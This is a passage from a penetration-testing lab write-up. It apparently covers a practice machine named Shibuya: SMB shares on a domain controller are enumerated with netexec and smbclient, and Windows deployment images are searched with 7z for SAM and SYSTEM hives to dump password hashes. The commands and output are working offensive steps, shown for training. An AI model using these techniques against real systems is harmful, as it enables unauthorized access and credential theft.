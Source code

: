 ```bash
➜  Shibuya netexec smb shibuya.vl -u svc_autojoin -p '<REDACTED>' --shares
SMB         10.10.88.177    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.88.177    445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:<REDACTED>
SMB         10.10.88.177    445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.88.177    445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.88.177    445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.88.177    445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.88.177    445    AWSJPDC0522      C$                              Default share
SMB         10.10.88.177    445    AWSJPDC0522      images$         READ            
SMB         10.10.88.177    445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.10.88.177    445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.10.88.177    445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.10.88.177    445    AWSJPDC0522      users           READ           
```

The password was correct. While looking at the shares, the `images` share caught our attention.

```bash
➜  Shibuya smbclient -U svc_autojoin \\\\shibuya.vl\\images$                                                
Password for [WORKGROUP\svc_autojoin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 16 15:24:08 2025
  ..                                DHS        0  Wed Feb 19 16:59:37 2025
  AWSJPWK0222-01.wim                  A  8264070  Sun Feb 16 15:23:41 2025
  AWSJPWK0222-02.wim                  A 50660968  Sun Feb 16 15:23:45 2025
  AWSJPWK0222-03.wim                  A 32065850  Sun Feb 16 15:23:47 2025
  vss-meta.cab                        A   365686  Sun Feb 16 15:22:37 2025

		6126847 blocks of size 4096. 1338307 blocks available
```

We found `.wim` files inside the `images` share. Honestly, I recognize these from the WDS server. They were used to automate the deployment of operating systems to computers. But the good part is, we can extract files from the `.wim`. Our immediate thought was to dump the hashes from the registry.

```bash
➜  Shibuya 7z l AWSJPWK0222-01.wim | grep SAM

➜  Shibuya 7z l AWSJPWK0222-02.wim | grep SAM

2025-02-16 23:47:38 ....A            0            0  RegBack/SAM
2025-02-16 15:16:08 ....A        65536        14320  SAM
2021-05-08 12:06:51 ..HSA        65536         9960  SAM.LOG1
2021-05-08 12:06:51 ..HSA        49152         9502  SAM.LOG2
➜  Shibuya 7z l AWSJPWK0222-02.wim | grep SYSTEM

2021-05-08 12:06:51 ..HSA            0            0  SYSTEM.LOG1
2021-05-08 12:06:51 ..HSA            0            0  SYSTEM.LOG2
2025-02-16 23:47:38 ....A            0            0  RegBack/SYSTEM
2025-02-16 15:16:08 ....A     17039360      3632062  SYSTEM
```

